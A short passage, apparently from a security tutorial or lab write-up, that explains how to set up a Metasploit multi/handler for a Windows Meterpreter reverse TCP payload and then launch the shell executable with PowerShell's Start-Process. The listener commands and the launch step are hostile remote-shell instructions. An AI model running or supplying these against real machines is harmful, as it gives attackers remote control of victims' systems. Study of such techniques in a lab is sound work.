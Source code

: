Before running this program, ensure the handler is set up in metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`

![Untitled](images/Untitled%2029.png)

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

![Untitled](images/Untitled%2030.png)
